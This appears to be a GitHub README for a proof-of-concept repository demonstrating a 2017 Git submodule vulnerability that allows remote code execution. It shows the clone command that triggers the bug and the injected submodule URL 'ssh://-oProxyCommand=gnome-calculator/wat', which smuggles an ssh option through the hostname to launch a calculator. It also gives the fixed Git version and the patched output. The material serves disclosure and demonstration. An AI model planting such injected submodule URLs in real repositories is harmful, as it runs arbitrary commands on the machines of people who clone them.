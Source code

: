 # Git clone RCE

This repo is an example of `git clone` vulnerability described in http://blog.recurity-labs.com/2017-08-10/scm-vulns using a git submodule.

To see it in action, simply clone the repo using:
```
git clone git@github.com:disconnect3d/git_clone_rce_calc.git --recursive
```
The recursive part is crucial as git **must** try to clone the malicious git submodule url.
This will launch a `gnome-terminal` on your machine.

### To be safe
**Upgrade your Git to 2.14.1 as that is fixed on that version as stated in [git's release notes](https://raw.githubusercontent.com/git/git/master/Documentation/RelNotes/2.14.1.txt).**

After updating the issue is gone:
```
$ git clone git@github.com:disconnect3d/git_clone_rce_calc.git --recursive
Cloning into 'git_clone_rce_calc'...
remote: Counting objects: 15, done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 3), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (3/3), done.
Checking connectivity... done.
Submodule 'git_calc_rce' (ssh://-oProxyCommand=gnome-calculator/wat) registered for path 'git_calc_rce'
Cloning into 'git_calc_rce'...
fatal: strange hostname '-oProxyCommand=gnome-calculator' blocked
fatal: clone of 'ssh://-oProxyCommand=gnome-calculator/wat' into submodule path 'git_calc_rce' failed
```
